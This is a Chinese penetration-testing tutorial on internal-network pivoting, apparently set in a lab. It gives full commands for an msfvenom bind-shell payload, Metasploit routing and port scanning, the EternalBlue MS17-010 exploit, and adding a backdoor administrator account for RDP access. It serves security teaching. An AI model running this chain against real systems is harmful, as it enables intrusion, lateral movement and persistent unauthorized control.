# 网络安全系统教程：P73：60.收集内网主机信息与反弹Shell



## 概述
在本节课中，我们将学习在获得内网主机Shell后，如何进行信息收集，并利用正向Shell技术将内网主机会话反弹至MSF控制台。我们还将学习如何通过已建立的代理通道，对内网更深层的主机进行端口扫描、漏洞利用，并最终通过远程桌面连接控制目标主机。

---

## 内网主机信息收集

上一节我们获得了内网主机 `192.168.22.2` 的Shell。本节中，我们将以此为基础，收集该主机及其所在网络的信息。

首先，我们需要了解当前主机的网络环境。使用 `ifconfig` 命令查看网卡信息。



```bash
ifconfig
```

执行后，我们发现该主机有两个网卡：
*   一个位于 `192.168.22.0/24` 网段。
*   另一个位于 `192.168.33.0/24` 网段。

这表明，当前主机可以访问 `192.168.33.0/24` 网段。接下来，我们需要探测该网段内存活的主机。

以下是探测存活主机的步骤：
1.  使用脚本或工具（如 `nmap`）对 `192.168.33.0/24` 网段进行存活探测。
2.  发现存活主机后，对其开放端口进行扫描。
3.  针对开放的端口及其对应服务，寻找可利用的漏洞点。

在本例中，我们探测到 `192.168.33.33` 主机存活。

---

## 通过正向Shell建立MSF会话



我们发现 `192.168.33.33` 主机存活，并希望对其进行端口扫描和漏洞利用。然而，我们当前的MSF控制台无法直接访问 `192.168.33.0/24` 网段。访问需要通过已控制的跳板机 `192.168.22.2` 来实现。



**问题**：如何将 `192.168.22.2` 主机的Shell会话稳定地反弹到我们的MSF控制台？

**分析**：`192.168.22.2` 是一台内网机器，通常无法直接访问外网（我们的MSF服务器）。因此，无法使用传统的反向Shell（Reverse Shell）。此时，应使用正向Shell（Bind Shell）。

**正向Shell原理**：在目标主机上执行一个程序，该程序会在本地监听一个指定端口。然后，攻击者主动连接到目标主机的这个监听端口，从而建立Shell会话。

具体操作步骤如下：
1.  **生成正向Shell负载**：在MSF中生成一个正向连接的可执行文件。
    ```bash
    msfvenom -p linux/x86/meterpreter/bind_tcp LPORT=6668 -f elf -o /tmp/m3mng2.elf
    ```
    *   `-p linux/x86/meterpreter/bind_tcp`: 指定载荷为Linux x86架构的Meterpreter正向TCP连接。
    *   `LPORT=6668`: 指定在目标主机上监听的端口。
    *   `-f elf`: 输出格式为ELF（Linux可执行文件）。
    *   `-o /tmp/m3mng2.elf`: 输出文件路径。

2.  **上传并执行载荷**：通过已有的Shell会话（例如之前的`session 5`），将生成的`m3mng2.elf`文件上传到目标主机`192.168.22.2`，并赋予执行权限后运行。
    ```bash
    # 在 session 5 中操作
    upload /tmp/m3mng2.elf /tmp/
    chmod +x /tmp/m3mng2.elf
    /tmp/m3mng2.elf
    ```
    执行后，`192.168.22.2` 主机将在本地监听 `6668` 端口。

3.  **MSF连接正向Shell**：在MSF中使用 `exploit/multi/handler` 模块，配置对应的正向连接载荷，连接目标主机的监听端口。
    ```bash
    use exploit/multi/handler
    set payload linux/x86/meterpreter/bind_tcp
    set RHOST 192.168.22.2 # 目标主机IP
    set LPORT 6668 # 目标主机监听的端口
    exploit
    ```
    执行后，MSF会主动连接到 `192.168.22.2:6668`，成功建立一个新的Meterpreter会话（例如 `session 6`）。

4.  **Shell升级（可选）**：初始获得的Shell可能是基础的`shell`类型，使用不便。可以将其升级为功能更全的`meterpreter`会话。
    ```bash
    # 在 session 6 中
    background # 将当前会话后台运行
    # 使用 post/multi/manage/shell_to_meterpreter 模块
    use post/multi/manage/shell_to_meterpreter
    set SESSION 6
    run
    ```
    执行成功后，会生成一个新的`meterpreter`会话（例如 `session 7`）。使用 `sessions -i 7` 即可进入。

现在，我们成功将内网主机 `192.168.22.2` 的会话稳定地反弹到了MSF控制台（`session 7`）。

---

## 探测与攻击更深层内网主机

现在我们拥有了通过 `192.168.22.2`（`session 7`）访问 `192.168.33.0/24` 网段的能力。为了让我们MSF的所有流量都能通过这个通道访问 `33` 网段，需要添加路由。

```bash
# 在 session 7 中添加路由
route add 192.168.33.0 255.255.255.0 7
# 参数解释：目标网段 子网掩码 用于出站的会话ID
```

添加路由后，MSF发往 `192.168.33.0/24` 的流量会自动通过 `session 7` 转发。

接下来，我们可以对 `192.168.33.33` 进行信息收集和攻击。

1.  **端口扫描**：使用MSF的端口扫描模块，通过已建立的Socks代理进行扫描。
    ```bash
    use auxiliary/scanner/portscan/tcp
    set RHOSTS 192.168.33.33
    set PORTS 1-10000
    run
    ```
    扫描结果显示开放了 `445`、`139`、`3389` 等端口。`3389`是Windows远程桌面端口，`445`是SMB服务端口，存在著名的“永恒之蓝”（MS17-010）漏洞。



2.  **漏洞利用**：尝试利用MS17-010漏洞获取该主机权限。
    ```bash
    use exploit/windows/smb/ms17_010_eternalblue
    set payload windows/x64/meterpreter/bind_tcp
    set RHOST 192.168.33.33
    exploit
    ```
    利用成功后，我们获得了 `192.168.33.33` 的一个System权限的Meterpreter会话（例如 `session 8`）。



---







## 通过远程桌面连接控制主机

在获得 `192.168.33.33` 的Shell后，除了使用Meterpreter，我们还可以通过其开放的 `3389` 端口进行图形化远程桌面连接。

1.  **添加用户**：在获得的Meterpreter会话（`session 8`）中添加一个管理员用户。
    ```bash
    # 在 session 8 中
    shell
    net user hacker P@ssw0rd! /add
    net localgroup administrators hacker /add
    ```

2.  **进行远程桌面连接**：
    *   **Linux系统**：可以使用 `rdesktop` 或 `xfreerdp` 命令，并通过 `proxychains` 使其流量走我们建立的Socks代理。
        ```bash
        proxychains rdesktop 192.168.33.33
        ```
    *   **Windows系统**：可以使用系统自带的 `mstsc`（远程桌面连接）。需要配合全局代理工具（如Proxifier），将 `mstsc.exe` 程序的流量定向到我们的Socks代理服务器（`127.0.0.1:1080`）。配置好代理规则后，即可像连接普通主机一样连接内网的 `192.168.33.33`。

---







## 总结
本节课中我们一起学习了内网渗透中的关键步骤：
1.  **信息收集**：在获得立足点后，系统性地收集主机和网络信息，寻找新的攻击路径。
2.  **正向Shell应用**：在内网主机不出网的情况下，使用正向Shell建立稳定的MSF控制通道。
3.  **路由与代理**：通过MSF路由和Socks代理，实现攻击工具对内网深层的访问。
4.  **横向移动**：利用扫描发现的端口和服务漏洞（如MS17-010），进行横向渗透，获取更多主机权限。
5.  **远程桌面控制**：在获得权限后，通过添加用户并利用远程桌面服务，实现对Windows主机的图形化控制。





这套流程清晰地展示了从外网突破到内网横向移动，直至完全控制内网多台主机的完整攻击链。理解并掌握这些步骤，对于构建有效的内网防御体系至关重要。